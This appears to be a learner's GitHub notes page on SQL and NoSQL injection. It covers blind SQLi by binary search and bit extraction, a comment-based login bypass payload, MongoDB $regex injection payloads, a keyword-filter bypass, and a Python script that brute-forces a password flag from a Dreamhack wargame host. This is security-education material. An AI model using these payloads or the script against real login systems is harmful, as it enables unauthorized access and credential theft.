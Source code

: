 ## RDBMS : Relational Database Management System

> RDBMS has limit of capacity because it use second-dementional table.

## NRDBMS : Non - RDBMS (NoSQL)

#### NoSQL also generate query dynamically -> sqli can cause.

#### NoSQL use key-value storing method while RDBMS use TABLE. -> Optimized store capacity.

## ExploitTech : blind sqli advanced

#### Binary Search : **_Binary Search based on a assumtion that data is sorted._** Set range(n,m). As example, let range as (0,100). This method compare target data with middle-orderd data, and regenerate data range (0,50) if target <= middle else range(51, 100). repeat it so that target be captured

> example
>
> ```sql
> mysql> select * from users where username='admin' and ascii(substr(password, 1, 1))>79;
> /* This exploit compare first word of password with ascii_middle_value:79 */
> ```

#### Bit Calculation : ascii letter can express range from 0 to 127 so that we can express it also with 7 bit. By using repeat of exploit statement including useful function like `bin` and `substr`, we can find password

> example
>
> ```sql
> mysql> select * from users where username='admin' and substr(bin(ord(password)),1,1)=1;
> mysql> select * from users where username='admin' and substr(bin(ord(password)),2,1)=1;
> ...
> mysql> select * from users where username='admin' and substr(bin(ord(password)),7,1)=1;
> ```

# SQL injection : in raw query which created dynamically

## If you want to create RawQuery dynamically, use Prepared Statement and Object Relational Mapping

> Prepared Statement : during taking dynamic query, it analyze query itself and then regenerate safe query.

### example of raw query code )

```py
res = query_db(f'select * from users where userid="{userid}" and userpassword = "{userpassword}"')
```

In this code, the query generated including user's input so that sqli can evoke.

### example of exploit of this code )

```sql
admin" --
```

in form of userid we can use this exploit to login for admin

## NoSQL injection : same with normal sqli except the point that NoSQL has different syntax.

```js
app.get('/query', function(req,res) {
    db.collection('user').findOne({
        'uid': req.body.uid,
        'upw': req.body.upw
    }, function(err, result){
        if (err) throw err;
        console.log(result);
        if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
```

in this code, we can use sqli.

```sql
#blind sqli
{"uid": "admin", "upw": {"$regex":".{5}"}}
{"uid": "admin", "upw": {"$regex":"^a"}}
{"uid": "admin", "upw": {"$regex":"^aa"}}
{"uid": "admin", "upw": {"$regex":"^ab"}}
...
{"uid": "admin", "upw": {"$regex":"^apple$"}}
```

this is the repeat of substitution.

> $regex : select document which corresponds with regular expression (more about regex : https://wooncloud.com/113#%EC%--%B-%EC%BB%A-%---Anchors-)
> <br>

## SQL Features

#### `UNION` : Link multiple `select`

> Cautions : <li> Result of each linked `select` should have same number of columns. </li>
>
> <li> The data type of each linked `select` should same with each other.(applied only some dbms like mssql) </li>

#### `Subquery` : usage of inner query in a query.

> We can access other table the query not take, by use it. Also, we can use `select` where it is not used.  
> Cautions :
>
> <li> Result of subquery should return __single row__ and __single column__ in the `columns` clause </li>  
> <li> Result of subquery can return __multiple row__ and __multiple columns__ in the `FROM` cluase</li>  
> <li> Result of subquery can return __multiple row__ in the `WHERE` clause</li>

#### `Applicaiton Logic`

> by analyzing logic of web application, we can attack with `union`, `if()` and etc.... <- whether logic has output or not is very important to us.

# This exercise is set to MongoDB.

### It has filter like below.

#### filter )

```js
filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
#It returns True if banned keyword is included in your input.
```

### But keyword filtering system is not secure. We can use sqli untill the fundamental vulerabililty exists.

> filtering is easily paralyzed by using regular expression "." that mean every character. ex) admin -> ad.in , DH{ -> D.{

### Here is the exploit code use blind sqli )

```py
import requests, string

HOST = 'http://host3.dreamhack.games:13265'
SUCCESS = 'admin'
ALPHANUMERIC = string.digits + string.ascii_letters

i = 1
while True:
    res = requests.get(f'{HOST}/login?uid[$regex]=adm&upw[$regex]=.{{{i}}}')
    if res.text == SUCCESS:
        i += 1
    else:
        i -= 1
        break;
print(f'length of password : {i}')

flag = ''
for k in range(i-4):
    for ch in ALPHANUMERIC:
        res = requests.get(f'{HOST}/login?uid[$regex]=adm&upw[$regex]=D.{{{flag}{ch}')
        if res.text == SUCCESS:
            flag += ch
            break

print(f'flag : DH{{{flag}}}')
```

first, code find the length of the password and then, using for loop with range(LENGTH OF PWD), find flag by repeating substition.
